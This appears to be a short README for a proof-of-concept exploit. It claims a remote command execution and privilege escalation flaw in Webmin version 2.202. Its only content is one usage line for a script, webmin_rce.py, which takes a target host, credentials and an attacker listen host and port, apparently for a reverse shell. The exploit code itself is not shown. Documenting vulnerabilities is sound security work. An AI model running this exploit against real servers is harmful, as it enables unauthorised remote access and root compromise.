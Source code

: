 # Webmin RCE Leading to Privilege Escalation

This vulnerability is found in version 2.202 of the webmin and includes remote command execution and privilege escalation vulnerabilities.

# PoC
 ``` 
 python3 webmin_rce.py -rhost <target> -rport <targetport> -u <user> -p <password> -lhost <attackerip> -lport <listenport>
  ``` 
